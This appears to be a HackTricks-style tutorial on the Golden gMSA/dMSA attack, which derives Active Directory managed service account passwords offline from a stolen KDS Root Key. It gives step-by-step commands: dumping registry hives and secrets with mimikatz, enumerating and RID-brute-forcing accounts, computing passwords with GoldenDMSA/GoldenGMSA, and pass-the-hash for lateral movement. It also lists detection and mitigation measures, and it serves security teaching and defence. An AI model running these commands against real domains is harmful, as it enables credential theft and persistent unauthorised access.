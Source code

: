# Golden gMSA/dMSA Attack (Offline Derivation of Managed Service Account Passwords)

{{#include ../../banners/hacktricks-training.md}}

## Overview

Windows Managed Service Accounts (MSA) are special principals designed to run services without the need to manually manage their passwords.
There are two major flavours:

1. **gMSA** – group Managed Service Account – can be used on multiple hosts that are authorised in its `msDS-GroupMSAMembership` attribute.
2. **dMSA** – delegated Managed Service Account – the (preview) successor to gMSA, relying on the same cryptography but allowing more granular delegation scenarios.

For both variants the **password is not stored** on each Domain Controller (DC) like a regular NT-hash. Instead every DC can **derive** the current password on-the-fly from:

* The forest-wide **KDS Root Key** (`KRBTGT\KDS`)  – randomly generated GUID-named secret, replicated to every DC under the `CN=Master Root Keys,CN=Group Key Distribution Service, CN=Services, CN=Configuration, …` container.
* The target account **SID**.
* A per-account **ManagedPasswordID** (GUID) found in the `msDS-ManagedPasswordId` attribute.

The derivation is: `AES256_HMAC( KDSRootKey , SID || ManagedPasswordID )` → 240 byte blob finally **base64-encoded** and stored in the `msDS-ManagedPassword` attribute.
No Kerberos traffic or domain interaction is required during normal password usage – a member host derives the password locally as long as it knows the three inputs.

## Golden gMSA / Golden dMSA Attack

If an attacker can obtain all three inputs **offline** they can compute **valid current and future passwords** for **any gMSA/dMSA in the forest** without touching the DC again, bypassing:

* LDAP read auditing
* Password change intervals (they can pre-compute)

This is analogous to a *Golden Ticket* for service accounts.

### Prerequisites

1. **Forest-level compromise** of **one DC** (or Enterprise Admin), or `SYSTEM` access to one of the DCs in the forest.
2. Ability to enumerate service accounts (LDAP read / RID brute-force).
3. .NET ≥ 4.7.2 x64 workstation to run [`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) or equivalent code.

### Golden gMSA / dMSA
#### Phase 1 – Extract the KDS Root Key

Dump from any DC (Volume Shadow Copy / raw SAM+SECURITY hives or remote secrets):

```cmd
reg save HKLM\SECURITY security.hive
reg save HKLM\SYSTEM  system.hive

# With mimikatz on the DC / offline
mimikatz # lsadump::secrets
mimikatz # lsadump::trust /patch   # shows KDS root keys too

# With GoldendMSA
GoldendMSA.exe kds --domain <domain name>   # query KDS root keys from a DC in the forest
GoldendMSA.exe kds 

# With GoldenGMSA
GoldenGMSA.exe kdsinfo
```
The base64 string labelled `RootKey` (GUID name) is required in later steps.

##### Phase 2 – Enumerate gMSA / dMSA objects

Retrieve at least `sAMAccountName`, `objectSid` and `msDS-ManagedPasswordId`:

```bash
# Authenticated or anonymous depending on ACLs
Get-ADServiceAccount -Filter * -Properties msDS-ManagedPasswordId | \
  Select sAMAccountName,objectSid,msDS-ManagedPasswordId
  
GoldenGMSA.exe gmsainfo
```

[`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) implements helper modes:

```bash
# LDAP enumeration (kerberos / simple bind)
GoldendMSA.exe info -d example.local -m ldap

# RID brute force if anonymous binds are blocked
GoldendMSA.exe info -d example.local -m brute -r 5000 -u jdoe -p P@ssw0rd
```

##### Phase 3 – Guess / Discover the ManagedPasswordID (when missing)

Some deployments *strip* `msDS-ManagedPasswordId` from ACL-protected reads.
Because the GUID is 128-bit, naive bruteforce is infeasible, but:

1. The first **32 bits = Unix epoch time** of the account creation (minutes resolution).
2. Followed by 96 random bits.

Therefore a **narrow wordlist per account** (± few hours) is realistic.

```bash
GoldendMSA.exe wordlist -s <SID> -d example.local -f example.local -k <KDSKeyGUID>
```
The tool computes candidate passwords and compares their base64 blob against the real `msDS-ManagedPassword` attribute – the match reveals the correct GUID.

##### Phase 4 – Offline Password Computation & Conversion

Once the ManagedPasswordID is known, the valid password is one command away:

```bash
# derive base64 password
GoldendMSA.exe compute -s <SID> -k <KDSRootKey> -d example.local -m <ManagedPasswordID> -i <KDSRootKey ID>
GoldenGMSA.exe compute --sid <SID> --kdskey <KDSRootKey> --pwdid <ManagedPasswordID>
```
The resulting hashes can be injected with **mimikatz** (`sekurlsa::pth`) or **Rubeus** for Kerberos abuse, enabling stealth **lateral movement** and **persistence**.

## Detection & Mitigation

* Restrict **DC backup and registry hive read** capabilities to Tier-0 administrators.
* Monitor **Directory Services Restore Mode (DSRM)** or **Volume Shadow Copy** creation on DCs.
* Audit reads / changes to `CN=Master Root Keys,…` and `userAccountControl` flags of service accounts.
* Detect unusual **base64 password writes** or sudden service password reuse across hosts.
* Consider converting high-privilege gMSAs to **classic service accounts** with regular random rotations where Tier-0 isolation is not possible.

## Tooling

* [`Semperis/GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) – reference implementation used in this page.
* [`Semperis/GoldenGMSA`](https://github.com/Semperis/GoldenGMSA/) – reference implementation used in this page.
* [`mimikatz`](https://github.com/gentilkiwi/mimikatz) – `lsadump::secrets`, `sekurlsa::pth`, `kerberos::ptt`.
* [`Rubeus`](https://github.com/GhostPack/Rubeus) – pass-the-ticket using derived AES keys.

## References

- [Golden dMSA – authentication bypass for delegated Managed Service Accounts](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/)
- [gMSA Active Directory Attacks Accounts](https://www.semperis.com/blog/golden-gmsa-attack/)
- [Semperis/GoldenDMSA GitHub repository](https://github.com/Semperis/GoldenDMSA)
- [Improsec – Golden gMSA trust attack](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-5-golden-gmsa-trust-attack-from-child-to-parent)

{{#include ../../banners/hacktricks-training.md}}
